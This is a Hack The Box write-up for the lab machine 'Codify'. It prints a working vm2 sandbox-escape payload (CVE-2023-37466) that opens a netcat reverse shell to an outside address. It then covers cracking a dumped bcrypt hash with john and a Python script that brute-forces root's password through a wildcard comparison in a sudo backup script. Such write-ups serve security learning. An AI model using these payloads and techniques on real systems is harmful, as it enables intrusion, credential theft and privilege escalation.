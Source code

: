 ```yaml
---
author: pl4int3xt
layout: post
title: Codify
date: '2023-11-07 09:13:35 +0300'
// cover: img/cover_images/42.png
description: "Codify is an easy linux machine from HTB"
categories: [Hack The Box]
---
```


## MACHINE INFO

> **[Codify](https://app.hackthebox.com/machines/Codify)** is an easy linux machine which leverages a CVE on `vm2` and the knowledge of `javascript` inorder to create a script for a reverse shell and the basic of any scripting language such as `python` to create a custom script for privilege escalation through bruteforce attack.

## ENUMERATION

```bash
nmap -sV -sC -top-ports 100 10.10.11.239
```

```bash
Nmap scan report for 10.10.11.239
Host is up (0.79s latency).
Not shown: 97 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.78 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
The website allows us to run javascript code

![img-description](/img/codify/1.png)

We notice the website uses vm2

![img-description](/img/codify/2.png)

After searching for the exploits on vm2 i came across this [CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5) that allows RCE

We craft our payload to create [netcat bind and reverse shells](https://patchthenet.com/blog/create-bind-and-reverse-shells-using-netcat/) to connect with netcat

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.178 4242 >/tmp/f');
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

We then listen on our machine for connections

```bash
sudo nc -lnvp 4242
```

We run the code and immediately "WE ARE IN". We move to var/www/ and find a directory ```contact```. We move into the directory and find ```tickets.db```
```bash
$ cd var/www/  
$ ls
contact
editor
html
$ cd contact
$ ls
index.js
package.json
package-lock.json
templates
tickets.db
```

We use sqlite3 to get the data in users table. We find a user joshua with a hash 
```bash
$ sqlite3 tickets.db
.tables
tickets  users  
select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We crack the hash with john and find the password ```spongebob1```
```bash
john --wordlist=/usr/share/dict/rockyou.txt hash.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:11 DONE (2023-11-07 11:45) 0.01399g/s 19.14p/s 19.14c/s 19.14C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We connect with ssh to the machine
```bash
ssh joshua@10.10.11.239
password: spongebob1
```

## PRIVILEGE ESCALATION
We notice a script running at ```/opt/scripts/mysql-backup.sh```. The script allows us to guess the password endless times
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
We create a python script to bruteforce the password of the root
```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

```bash
joshua@codify:/tmp$ python3 brute.py
[sudo] password for joshua: 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
We switch to root and enter the password. We are now r00t
```bash
joshua@codify:/tmp$ su
Password: 
root@codify:/tmp#
```

![img-description](/img/codify/3.png)
